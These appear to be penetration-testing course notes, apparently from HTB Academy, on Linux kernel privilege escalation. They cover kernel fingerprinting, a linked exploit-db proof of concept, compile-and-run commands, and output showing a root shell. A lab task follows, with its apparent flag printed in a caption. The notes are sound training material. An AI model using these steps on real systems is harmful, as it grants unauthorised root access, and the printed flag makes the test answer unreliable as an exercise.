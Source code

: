 # Kernel Exploits

* [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) (CVE-2016-5195) -> A very well-known kernel exploit
* Kernel exploit can be as simple as downloading, compiling, and running it.
* Some exploits work out of the box, while others require modification.
* A quick way to identify exploits is to run `uname -a` and search Google for the kernel version.

### Kernel Exploit Example

```shell-session
uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

```shell-session
cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

* Linux Kernel 4.4.0-116

{% embed url="https://www.exploit-db.com/exploits/44298" %}
for `linux 4.4.0-116-generic exploit` comes up with this exploit PoC
{% endembed %}

We can compile the exploit code using [gcc](https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.

```shell-session
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

Next, we run the exploit and hopefully get dropped into a root shell.

```shell-session
./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

Finally, we can confirm root access to the box.

```shell-session
root@htb[/htb]# whoami

root
```

## Assesment

Escalate privileges using the same Kernel exploit. Submit the contents of the flag.txt file in the /root/kernel\_exploit directory.

<figure><img src="../../../.gitbook/assets/image (14) (4).png" alt=""><figcaption><p>46237b8aa523bc7e0365de09c0c0164f</p></figcaption></figure>
